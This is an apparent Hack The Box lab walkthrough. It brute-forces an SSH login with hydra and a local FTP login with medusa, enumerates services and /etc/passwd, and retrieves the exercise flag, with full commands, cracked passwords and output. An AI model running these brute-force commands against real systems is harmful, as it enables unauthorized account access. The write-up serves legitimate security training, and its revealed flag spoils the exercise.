 ```yaml
---
sticker: emoji//1f9d1-200d-1f4bb
---
```

This is the second part of the skills assessment. `YOU NEED TO COMPLETE THE FIRST PART BEFORE STARTING THIS`. Use the username you were given when you completed part 1 of the skills assessment to brute force the login on the target instance.

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250213160519.png)

If we recall last part, we found an username:

```
satwossh
```

We can begin our brute forcing by trying to find the password for that username, we suppose its a `ssh` user so, let's do the following command:

```
hydra -l satwossh -P 2023-200_most_used_passwords.txt 94.237.54.164 -s 36513 ssh -t 60
```

We get the following:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 21:06:35
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 60 tasks per 1 server, overall 60 tasks, 200 login tries (l:1/p:200), ~4 tries per task
[DATA] attacking ssh://94.237.54.164:36513/
[36513][ssh] host: 94.237.54.164   login: satwossh   password: password1
1 of 1 target successfully completed, 1 valid password found
```

Found credentials:

```
`satwossh`:`password1`
```

Let's log into ssh:

```
ssh satwossh@94.237.54.164 -p 36513
The authenticity of host '[94.237.54.164]:36513 ([94.237.54.164]:36513)' can't be established.
ED25519 key fingerprint is SHA256:0ldLAJLTwIrE2wupFhvN1WiHuimct7AF+pBddY5xIi8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[94.237.54.164]:36513' (ED25519) to the list of known hosts.
satwossh@94.237.54.164's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.1.0-10-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
satwossh@ng-1340293-loginbfsatwo-rv3cd-7fdfc99595-9tpzv:~$
```

Nice, let's search the ports and active listening services, also, the home directory:

```
 netstat -tulpn | grep LISTEN
(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::21                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -


nmap localhost
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-13 21:09 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000076s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 998 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
ftp:x:105:107:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
satwossh:x:1000:1000::/home/satwossh:/bin/bash
thomas:x:1001:1001::/var/.hidden:/bin/bash
```

We found ftp, and an user named `thomas`, let's try to brute force the ftp login:

```
which medusa

/usr/bin/medusa
```

Medusa is enabled:

```
medusa -h 127.0.0.1 -u thomas -P passwords.txt -M ftp -t 5

ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: a123456 (28 of 198 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: 666666 (29 of 198 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: asdfghjkl (30 of 198 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: ashley (31 of 198 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: chocolate! (32 of 198 complete)
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: thomas Password: chocolate! [SUCCESS]
```

Found the ftp credentials:

```
`thomas`:`chocolate!`
```

Let's log into ftp:

```
ftp ftp://thomas:'chocolate!'@localhost

Trying [::1]:21 ...
Connected to localhost.
220 (vsFTPd 3.0.5)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> ls
229 Entering Extended Passive Mode (|||55297|)
150 Here comes the directory listing.
-rw-------    1 1001     1001           28 Sep 10 09:19 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||10266|)
150 Opening BINARY mode data connection for flag.txt (28 bytes).
100% |***********************************************************************************************************************************************************|    28      701.12 KiB/s    00:00 ETA
226 Transfer complete.
28 bytes received in 00:00 (157.14 KiB/s)
ftp> exit
221 Goodbye.

cat flag.txt

HTB{brut3f0rc1ng_succ3ssful}
```

Flag is:

```
HTB{brut3f0rc1ng_succ3ssful}
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250213161640.png)

